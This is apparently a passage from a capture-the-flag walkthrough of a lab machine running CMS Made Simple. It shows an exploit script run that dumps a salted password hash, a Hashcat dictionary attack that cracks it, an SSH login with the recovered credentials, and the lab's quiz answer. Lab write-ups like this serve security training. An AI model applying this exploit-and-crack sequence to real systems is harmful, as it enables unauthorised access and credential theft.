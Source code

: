 {% step %}
### Running the Exploit

I executed the script to target the vulnerable CMS:

```bash
python3 cmsms_exploit.py -u http://10.10.183.190/simple
```

**Output:**

```
[+] Salt for password found: 1dac0d92e9fea6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```
{% endstep %}

{% step %}
### Cracking the Password Hash

The extracted password was hashed. Using the salt, I employed **Hashcat** to crack it:

```bash
hashcat -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fea6bb2 /usr/share/wordlists/rockyou.txt
```

**Explanation:**

* `-m 20`: Specifies the hash type (md5($salt.$pass)).
* `-a 0`: Attack mode (dictionary attack).
* `rockyou.txt`: Common password wordlist.

**Result:** Password cracked as `secret`.

{% hint style="info" %}
<mark style="background-color:green;">Question 5 : What's the password? secret</mark>
{% endhint %}


{% endstep %}

{% step %}
### Gaining Access via SSH

With credentials in hand:

* **Username:** mitch
* **Password:** secret

I noticed SSH was running on port **2222** (a non-standard port to deter automated attacks). I connected using:

```bash
ssh mitch@10.10.183.190 -p 2222
```
